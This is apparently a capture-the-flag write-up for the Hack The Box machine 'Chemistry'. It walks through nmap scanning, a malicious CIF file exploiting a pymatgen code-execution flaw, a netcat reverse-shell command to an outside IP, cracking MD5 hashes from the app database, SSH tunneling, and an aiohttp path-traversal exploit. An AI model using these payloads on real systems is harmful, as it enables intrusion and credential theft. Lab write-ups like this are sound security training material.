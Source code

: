 <br><br>
**Platform : Hack The Box**
**Box : Chemistry**
**Difficulty : Easy**
**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
==`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)`==  
==`5000/tcp open upnp?`==  
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.

<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![alt text](<Pasted image 20241023002915-1.png>)
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> *data_Example*
> *audit_creation_date            2018-06-08*
> *_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"*
> 
> *loop*
> *parent_propagation_vector.id*
> *_parent_propagation_vector.kxkykz*
> *k1 [0 0 0]*
> 
> *_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'*
> 
> 
> *_space_group_magn.number_BNS  62.448*
> *_space_group_magn.name_BNS  "P  n'  m  a'  "*
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>
![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)
<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>
Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost
<br><br>

![alt text](<Pasted image 20241023012150-1.png>)
<br><br>
To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:
<br><br>
`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>
This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*
<br><br>
![alt text](<Pasted image 20241023012150-2.png>) ![alt text](<Pasted image 20241102193940-1.png>) ![alt text](<Pasted image 20241102200205.png>)
<br><br>
and this is the first result if i search it on google:
<br><br>
https://github.com/z3rObyte/CVE-2024-23334-PoC
<br><br>
It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>
![alt text](<Pasted image 20241102200634.png>)
<br><br>

And...

<br><br>
![alt text](<Pasted image 20241102201153.png>)
<br><br>
Success! We have code execution as root user!
